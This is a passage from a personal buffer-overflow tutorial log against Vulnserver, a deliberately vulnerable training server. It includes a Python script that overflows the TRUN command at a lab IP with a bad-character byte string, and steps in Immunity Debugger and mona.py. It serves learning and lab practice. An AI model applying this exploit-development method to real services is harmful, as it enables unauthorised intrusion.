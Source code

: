 ```
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

 
shellcode = "A" * 2003 + "B" * 4 + badchars


try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.16.139.133',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "Error Connecting To Server" 
        sys.exit()
```

Now let save and run it the plans now is to focus on the ESP now let go back to Immunity Debugger and right click on the ESP register and select `Follow in Dump`.

![image](https://imgur.com/2QaTL3c.png)

You should notice a little bit of movement in the bottom left corner of the program. If you look carefully, you should see all of your bytes in order starting with 01, 02, 03, etc and ending with FF.

![Image](https://imgur.com/f8Ii3DI.png)

If a bad character were present, it would seem out of place. Luckily for us, there are no bad characters in the Vulnserver program. Notice below how all of our numbers appear perfect and in order we mean we have no bad characters in the program.

Thanks to the `CyberMentor` for showing some example of bad characters which make it easy for me to understand pics below;

![image](https://imgur.com/yRpYl5P.png)

it show the numbers are not in order some missing numbers which is a bad characters.

![Image](https://imgur.com/2jCkrXw.png)

//NOTE AM USING THE CYBERMENTOR MATERIALS

we would need to mark down every missing character for later shellcode development. However, the only bad character we need to worry about with Vulnserver is x00.


####  `Day 7`

`FINDING THE RIGHT MODULE`

First of all let download mona, what is mona?? Mona.py is a python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform). It runs on Immunity Debugger and WinDBG, and requires python 2.7. Although it runs in WinDBG x64, the majority of its features were written specifically for 32bit processes. Download Mona from here `https://github.com/corelan/mona`
